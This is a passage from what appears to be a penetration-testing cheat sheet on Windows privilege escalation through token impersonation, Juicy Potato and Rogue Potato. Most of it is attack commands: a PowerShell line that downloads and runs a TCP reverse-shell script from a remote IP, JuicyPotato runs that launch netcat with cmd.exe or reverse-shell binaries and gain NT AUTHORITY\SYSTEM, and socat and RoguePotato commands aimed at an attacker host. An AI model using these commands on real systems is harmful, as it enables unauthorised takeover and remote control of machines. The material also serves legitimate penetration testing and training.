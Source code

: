 ```powershell
Invoke-TokenManipulation -ImpersonateUser -Username "lab\domainadminuser"
Invoke-TokenManipulation -ImpersonateUser -Username "NT AUTHORITY\SYSTEM"
Get-Process wininit | Invoke-TokenManipulation -CreateProcess "Powershell.exe -nop -exec bypass -c \"IEX (New-Object Net.WebClient).DownloadString('http://10.7.253.6:82/Invoke-PowerShellTcp.ps1');\"};"
```


### Juicy Potato (Abusing the golden privileges)

> If the machine is **>= Windows 10 1809 & Windows Server 2019** - Try **Rogue Potato**    
> If the machine is **< Windows 10 1809 < Windows Server 2019** - Try **Juicy Potato**

* Binary available at : https://github.com/ohpe/juicy-potato/releases    

1. Check the privileges of the service account, you should look for **SeImpersonate** and/or **SeAssignPrimaryToken** (Impersonate a client after authentication)

    ```powershell
    whoami /priv
    ```

2. Select a CLSID based on your Windows version, a CLSID is a globally unique identifier that identifies a COM class object

    * [Windows 7 Enterprise](https://ohpe.it/juicy-potato/CLSID/Windows_7_Enterprise) 
    * [Windows 8.1 Enterprise](https://ohpe.it/juicy-potato/CLSID/Windows_8.1_Enterprise)
    * [Windows 10 Enterprise](https://ohpe.it/juicy-potato/CLSID/Windows_10_Enterprise)
    * [Windows 10 Professional](https://ohpe.it/juicy-potato/CLSID/Windows_10_Pro)
    * [Windows Server 2008 R2 Enterprise](https://ohpe.it/juicy-potato/CLSID/Windows_Server_2008_R2_Enterprise) 
    * [Windows Server 2012 Datacenter](https://ohpe.it/juicy-potato/CLSID/Windows_Server_2012_Datacenter)
    * [Windows Server 2016 Standard](https://ohpe.it/juicy-potato/CLSID/Windows_Server_2016_Standard) 

3. Execute JuicyPotato to run a privileged command.

    ```powershell
    JuicyPotato.exe -l 9999 -p c:\interpub\wwwroot\upload\nc.exe -a "IP PORT -e cmd.exe" -t t -c {B91D5831-B1BD-4608-8198-D72E155020F7}
    JuicyPotato.exe -l 1340 -p C:\users\User\rev.bat -t * -c {e60687f7-01a1-40aa-86ac-db1cbf673334}
    JuicyPotato.exe -l 1337 -p c:\Windows\System32\cmd.exe -t * -c {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4} -a "/c c:\users\User\reverse_shell.exe"
        Testing {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4} 1337
        ......
        [+] authresult 0
        {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4};NT AUTHORITY\SYSTEM
        [+] CreateProcessWithTokenW OK
    ```

### Rogue Potato (Fake OXID Resolver)

* Binary available at https://github.com/antonioCoco/RoguePotato

```powershell
# Network redirector / port forwarder to run on your remote machine, must use port 135 as src port
socat tcp-listen:135,reuseaddr,fork tcp:10.0.0.3:9999

# RoguePotato without running RogueOxidResolver locally. You should run the RogueOxidResolver.exe on your remote machine. 
# Use this if you have fw restrictions.
RoguePotato.exe -r 10.0.0.3 -e "C:\windows\system32\cmd.exe"

# RoguePotato all in one with RogueOxidResolver running locally on port 9999
RoguePotato.exe -r 10.0.0.3 -e "C:\windows\system32\cmd.exe" -l 9999

#RoguePotato all in one with RogueOxidResolver running locally on port 9999 and specific clsid and custom pipename
```
